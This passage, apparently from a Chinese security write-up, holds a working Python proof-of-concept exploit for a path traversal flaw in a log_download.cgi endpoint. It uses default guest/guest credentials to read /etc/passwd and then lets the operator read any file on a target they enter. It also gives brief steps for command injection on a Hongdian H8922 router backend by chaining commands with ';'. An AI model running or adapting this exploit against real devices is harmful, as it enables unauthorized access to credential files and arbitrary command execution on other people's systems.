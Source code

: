 ```
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/log_download.cgi?type=../../etc/passwd \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                filename = input("\033[35mFilename >>> \033[0m")
                if filename == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, filename)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, filename):
    vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] {} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    filename = '/etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, filename)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4IS0jaIjSCjKb2dDiabMpyhad2JEfNZb0SRPuUfCFNT6IfWrYR109HOicWZxERmxqgzjSrU8cInvzQ/640?wx_fmt=png)

******四:  宏电 H8922 后台命令执行漏洞 🦉******

```
登录后台(存在访客用户默认账号密码 guest/guest)
使用 ; 命令拼接执行任意命令
```
